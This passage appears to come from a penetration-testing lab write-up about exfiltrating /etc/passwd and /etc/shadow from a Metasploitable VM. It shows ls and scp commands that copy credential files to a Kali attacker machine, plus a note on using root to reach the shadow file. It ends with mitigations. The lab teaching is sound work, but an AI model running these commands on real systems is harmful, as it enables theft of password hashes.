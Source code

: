 Command:

```bash
ls -la /etc/passwd /etc/shadow /home/msfadmin
```
### 📸 Screenshot: Listing sensitive files
![Datlis](images/datlis.PNG)

2. Copied Files to Attacker Machine via SCP
From Kali:

```bash
scp msfadmin@192.168.56.101:/etc/passwd .
scp msfadmin@192.168.56.101:/etc/shadow .
```
### 📸 Screenshot: SCP file transfer
![Copdalis](images/copdalis.PNG)

***as seen in the image above, the shadow file is highly protected as it contains all system users hashed password so its denying me access frm copying it. But since i already have root access i can log back in as root and duplicate the file to a less secure location using root privilege and extract from my kali machine.***

### ✅ Result
- Successfully extracted /etc/passwd and /etc/shadow
- Demonstrated ability to steal system-level credentials
### 🧠 Observations
- Root access enabled unrestricted data theft
- No outbound traffic filtering detected
- No alerts or logs triggered during exfiltration
### 🛡️ Mitigation Recommendations
- Restrict access to sensitive files
- Monitor outbound traffic for anomalies
- Implement file integrity monitoring
- Use Data Loss Prevention (DLP) tools

